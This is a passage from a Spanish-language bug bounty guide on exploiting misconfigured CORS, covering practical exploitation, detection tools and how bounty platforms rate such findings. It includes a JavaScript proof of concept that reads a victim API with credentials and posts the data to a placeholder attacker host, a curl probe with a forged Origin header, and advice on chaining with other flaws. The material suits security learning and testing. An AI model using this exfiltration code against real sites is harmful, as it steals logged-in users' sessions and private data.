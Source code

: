 ````
```
fetch("[https://victima.com/api/rota-mal.json](https://victima.com/api/rota-mal.json)", {
credentials: "include"
})
.then(r => r.json())
.then(data => fetch("[https://atacante.com/loot](https://atacante.com/loot)", {
method: "POST",
body: JSON.stringify(data)
}));
```

---

## 7. Explotación práctica

- **Arma principal:** un HTML + `fetch` con `credentials: include`.
- **Usuario logueado:** carga la página y sus datos se exfiltran de manera invisible.

**Escenarios de fuga común:**

- Cookie de sesión.
- Tokens CSRF o JWT.
- Información de perfil.
- Datos internos de API.

---

## 8. Herramientas y automatización

Para detectar y mapear CORS mal configurados:

- **Corsy (Python)** → escaneo rápido.
- **Burp Suite CORS plugin** → detección avanzada.
- **curl básico:**

```
curl -v -H "Origin: [https://atacante.com](https://atacante.com/)" [https://victima.com/api](https://victima.com/api)
```


- **Nuclei** → plantillas listas de CORS misconfig.
- **Scripts custom** → útil para combinarlos con dorks y wordlists en hunts masivos.

**Tip avanzado:** combina detección de CORS con vulnerabilidades adyacentes como **open redirect**, filtrado de errores o **SQLi**. El impacto escala rápidamente.

---

## 9. Impacto real en plataformas de Bug Bounty

- Hallazgo “CORS básico” = suele ser rechazado o “informativo”.
- Demostración de **fuga de datos sensibles/autenticados** = **Alta o Crítica**.

**Lo que marca diferencia:**

- PoC clara y automática.
- Evidencia de robo real de datos del usuario autenticado.
- Encadenar con otras debilidades (XSS, redirect, CSRF, caché).

---

## 10. Conclusiones: CORS ≠ Informativo

````